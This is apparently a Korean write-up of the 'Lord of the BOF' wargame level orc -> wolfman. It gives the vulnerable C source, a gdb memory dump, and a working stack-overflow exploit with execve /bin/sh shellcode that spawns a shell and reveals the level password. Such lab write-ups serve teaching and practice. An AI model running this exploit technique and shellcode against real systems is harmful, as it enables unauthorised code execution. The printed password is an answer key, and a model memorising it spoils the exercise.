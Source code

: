 # orc -> wolfman

``` C
/*
        The Lord of the BOF : The Fellowship of the BOF
        - wolfman
        - egghunter + buffer hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```
앞의 문제와 비슷한 유형이다.
다른 점은 argv[1]을 buffer에 복사하는데 memset()함수로 buffer를 0으로 초기화 시킨다.
그래서 argv[2]를 사용하여 payload를 작성하였다.

strcpy()함수가 끝나는 부분에 breakpoint를 걸고, argv[1]에는 \xbf로 채워주고 argv[2]의 주소를 알기 위해 A를 100개 입력하였다.

```
0xbffffc17:      "/home/orc/wolfman1"
0xbffffc2a:      '¿' <repeats 48 times>
0xbffffc5b:      'A' <repeats 100 times>
0xbffffcc0:      ""
```

argv[2]의 주소를 알아내었고, 이제 payload를 작성해보면 된다.
payload = buffer[40]+SFP[4]+RET[4]+' '+SHELLCODE[125]

```
[orc@localhost orc]$ bash2
[orc@localhost orc]$ ./wolfman $(python -c 'print("\x90"*44+"\x5b\xfc\xff\xbf"+" "+"\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")')
[üÿ¿
bash$ my-pass
euid = 505
love eyuna
```
